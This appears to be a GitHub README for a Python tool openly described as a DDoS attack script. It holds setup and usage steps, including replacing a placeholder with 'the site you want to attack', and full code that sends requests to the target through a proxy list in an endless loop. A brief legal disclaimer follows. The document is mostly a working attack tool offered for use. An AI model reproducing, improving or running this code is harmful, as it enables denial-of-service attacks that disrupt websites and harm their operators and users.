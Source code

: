 # DDoS Attack Script Using Proxies

This Python script allows you to send HTTP requests through a list of proxy servers for the purpose of conducting DDoS attacks. It is designed to overload target websites by using multiple proxies to distribute the load.

## Features

- Loads a list of proxies from a specified file.
- Sends HTTP GET requests to a target URL using each proxy.
- Handles proxy errors and request exceptions.
- Displays the response from the target site.

## Requirements

- Python 3.x
- `requests` library

You can install the `requests` library using pip:

```bash
pip install requests

Usage
Clone the repository or download the script file.
Prepare your proxy list: Create a text file named proxy.txt in the same directory as the script. Each line should contain a proxy in the format IP:PORT, for example:
text
192.168.1.1:8080
192.168.1.2:8080

Edit the script: Open the script and replace URL_TARGET_SITE with the URL of the site you want to attack.
Run the script: Execute the script using Python:
bash
python your_script_name.py

Make sure to replace your_script_name.py with the actual name of your Python file.
Example Code
python
import requests
import time

def load_proxies(file_path):
    with open(file_path, "r") as file:
        proxies = file.readlines()
    proxies = [proxy.strip() for proxy in proxies if proxy.strip()]
    return proxies

def fetch_with_proxy(url, proxy):
    proxy_ip, proxy_port = proxy.split(":")
    proxies = {
        "http": f"http://{proxy_ip}:{proxy_port}",
        "https": f"http://{proxy_ip}:{proxy_port}",
    }

    try:
        response = requests.get(url, proxies=proxies, timeout=10)
        if response.status_code == 200:
            print(f"Successfully accessed the site through proxy: {proxy}")
            print("Site response:")
            print(response.text[:500])  
        else:
            print(f"Failed to access the site through proxy {proxy}. Status code: {response.status_code}")
    except requests.exceptions.ProxyError:
        print(f"Proxy error: {proxy}")
    except requests.exceptions.RequestException as e:
        print(f"Request error through proxy {proxy}: {e}")

def main(url, proxy_file):
    proxies = load_proxies(proxy_file)
    while True:
        for proxy in proxies:
            fetch_with_proxy(url, proxy)
            time.sleep(1)

url = "URL_TARGET_SITE"   # Target site URL
proxy_file = "proxy.txt"  # Your proxy list

main(url, proxy_file)

Important Notes
Legal Disclaimer: Ensure that you have permission to conduct DDoS attacks on the target website. Unauthorized use may violate terms of service or local laws and could lead to criminal charges.
Proxy Reliability: The effectiveness of this script depends on the reliability of the proxies used. Some proxies may be slow or unresponsive.
Rate Limiting: Be cautious with how frequently you send requests, as this may lead to your IP being blocked by the target site.
